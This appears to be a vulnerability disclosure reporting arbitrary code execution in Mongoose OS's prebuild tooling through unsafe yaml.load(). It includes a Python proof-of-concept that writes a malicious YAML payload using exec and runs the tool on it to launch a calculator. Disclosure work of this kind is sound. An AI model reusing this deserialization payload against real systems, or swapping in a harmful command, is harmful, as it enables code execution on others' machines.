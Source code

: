 # Description
**Arbitrary Code Excecution** in gen_proto_file.py in prebuilt.py tools of Mongoose-os repo .Prebuild.py is a utility for prebuilding binary libs and apps.
Mongoose OS - an IoT Firmware Development Framework. Supported microcontrollers: ESP32, ESP8266, CC3220, CC3200, STM32F4, STM32L4, STM32F7. Amazon AWS IoT, Microsoft Azure, Google IoT Core integrated. Code in C or JavaScript..
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**. 
# Exploit code
**Python File**
```python
import os
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
os.system('git clone https://github.com/cesanta/mongoose-os.git')
os.chdir('mongoose-os/tools/')
os.system('rm exploit.yml')
open('exploit.yml','w+').write(exploit)
os.system('python prebuild.py --config exploit.yml')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/787336571665121300/Screenshot_from_2020-12-12_20-40-28.png)
